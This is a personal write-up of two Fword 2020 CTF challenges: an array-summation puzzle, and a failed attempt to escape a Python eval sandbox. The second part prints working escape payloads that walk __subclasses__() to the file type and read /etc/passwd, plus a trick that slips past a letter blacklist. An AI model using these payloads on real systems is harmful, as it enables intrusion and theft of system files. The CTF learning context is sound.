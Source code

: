 ```yaml
---
title: Fword 2020 CTF write-up
slug: fword2020-ctf
image: "./images/fwords_score.png"
date: 2020-09-01
author: Justin Or
---
```


This was one of the first CTFs I've competed in, and I'm pretty happy with the performance we obtained. I worked on two problems, one which I didn't get in the end. But it was still a great learning experience. I definitely got carried by the other people in my team, who did really well in the `pwn` section.

## Problem 1 - Secret Array

**TL;DR**

- use `pwntools` to interface with the IP and port, not netcat, as there is no easy way to pipe python output to netcat
- **DON'T name your file something generic like `pwn.py` or `numbers.py`, as those are internally used by `pwntools`, and will result in failures DX**
- don't overengineer your answers, occam's razor
- installation steps:

```bash
virtualenv venv
. venv/bin/activate
pip install pwntools
```

The problem was hosted in a server, and netcat was used to access it.
`nc secretarray.fword.wtf 1337`

The problem stated that there were 1337 unknown numbers in an array, and we were allowed to query the server with 2 valid indices, which would return the sum of the two numbers in the array at those indices. We were allowed to query the server 1337 times.

At first glance, I immediately felt like this would be a great opportunity to use `np.linalg.solve`, as the problem was essentially a really big simultaneous equations problem, so at first I made arbitrary guesses of the form:

```python
for i in range(1337):
    if i == 1336:
        print(f"0 1336")
    else:
        print(f"{i} {i+1}")
```

This yielded a list of 1337 numbers, which I turned into a numpy array. I also converted my guesses into a numpy matrix like so:

```python
matrix = np.zeros((1337,1337))
for i in range(1337):

    if i == 1336:
        matrix[i,i] = 1
        matrix[i,0] = 1
    else:
        matrix[i,i] = 1
        matrix[i,i+1] = 1

matrix = matrix.astype('float64')
ans = np.linalg.solve(matrix, res)
for a in ans:
    print(a)
```

However, I immediately realised this wasn't going to work when I was getting floats as my answers...

So instead, I decided to rethink my strategy, since the simulataneous equations were quite simple:

- Let every element in the array be labelled like $a_{i}, i \in 1,2,...,N, \text{where } N=1337$.
- Thinking for a simple case, where $N=3$, we see that for the following chosen indices:

$$
\begin{cases}
a_0 + a_1 = b_0 \qquad (1)\\
a_0 + a_2 = b_1 \qquad (2)\\
a_1 + a_2 = b_2 \qquad (3)
\end{cases}
$$

- We can simply solve these by computing $(1)-(2) \equiv a_1 - a_2 = b_0 - b_1$, adding this to $(3)$, we obtain

$$
\begin{cases}
a_0 = b_0 - a_1 \\
a_1 = \frac{b_0 - b_1 + b_2}{2} \\
a_2 = b_0 - a_2
\end{cases}
$$

By solving this simplest case, we get a values for $a_0, a_1, a_2$ and we can easily extend this scenario to $N=4$ by taking the 4th simultaneous equation to be

$$
\begin{aligned}
a_2 + a_3 &= b_3 \\
\therefore a_3 &= b_3 - a_2
\end{aligned}
$$

So I just coded this:

```python
with open('output.txt','r') as f:
    data = f.readlines()

data = [int(d[:-1]) for d in data] #strip newline

# solve the first 3
answers = [0 for _ in range(1337)]

answers[1] = (data[0]-data[1]+data[2])/2
answers[0] = data[0]-answers[1]
answers[2] = data[2]-answers[1]

for i in range(3,1337):
    answers[i] = data[i]-answers[i-1]

# checking
assert(answers[0]+answers[1] == data[0])
assert(answers[0]+answers[2] == data[1])
assert(answers[1]+answers[2] == data[2])
for i in range(3,1337):
    assert(answers[i-1]+answers[i] == data[i])

print("DONE "+" ".join(str(a) for a in answers))
```

Now, when I was trying to get `pwntools` to work, I had made the moronically called the file `pwn.py` which was an internal file used in `pwntools`, so it failed, I eventually got my friend to run the code above and he got the flag :S.

## Problem 2 - Directory Manager

This one was really hard and involved a Server Side Template Injection in python. I didn't get it this time, but here are some things I found out that might prove useful in later CTFs.

### Recon

I just kept trying different inputs, here are some examples of what I got

```
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir
<built-in function dir>
```

Some more examples include:

```
dir: <built-in function dir>
file: <type 'file'>
exit: Use exit() or Ctrl-D (i.e. EOF) to exit
anything where the second letter is an s: Thank you !
[]: []
['hello']: []
['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']: ['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']
```

Ultimately, from the output interpretations of `dir` and `file`, I was pretty sure python code was executing. However, interestingly any input that contained the letter 's' would fail with `Thank you !`.

### Intro to SSTI

In a previous challenge, I performed Server Side Template Injection (SSTI) and remote code execution (RCE) through a Flask template input by exploiting the fact that `file` is a built in type, and that there were certain builtin class functions that let you go from any one class to any other class.

```python
>>> [].__class__
<type 'list'>
```

Here, we can abuse the `.__class__` method to obtain a reference to the list object type.

```python
>>> [].__class__.__base__
<type 'object'>
```

We can go further and obtain the object class like so.

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

We can actually find the `file` type, by taking the 40th element in this list:

```python
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```

And finally, we can use this type as a function to read and print a file.

```python
>>> [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n'
```

### no 's'

Now you can probably see why banning the letter 's' would be problematic, as the letter 's' appears in all the builtin functions we used to grab the file type.

However, fear not, as security engineers always find a way!

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[dir()]
[['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__warningregistry__', 'conn', 'inp', 'isallowed', 'ldap']]
```

I found I was able to evaluate the `dir()` function if it was contained in a list, and lo and behold! the first element of this list has the letter 's' in it~

I grabbed this 's' to see if it would pass whatever black listing was happening behind the scenes:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir()[0][9]
s
```

Bingo. Now, I just used the string `format` function to craft the payload shown in the previous section:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```

Although I was able to read `/etc/passwd`, as well as some other common files like `.bashrc`, without access to the `os` library, I was unnable to get a list of the directory, to know which file to target.

### Failures

I tried a lot of different things, here's how they worked out:

- I can `eval` but I am blacklisted from running `exec`, or running `eval(compile())`, which means I cannot import.
- I can use `__import__(os).listdirs()` but this is blocked from running, and black listed.
  Really, I spent a few hours testing random directories and possible file names for the flag, but without access to `ls`, I am really at a loss for knowing which file to target. Hence I was unable to get the flag in the end.
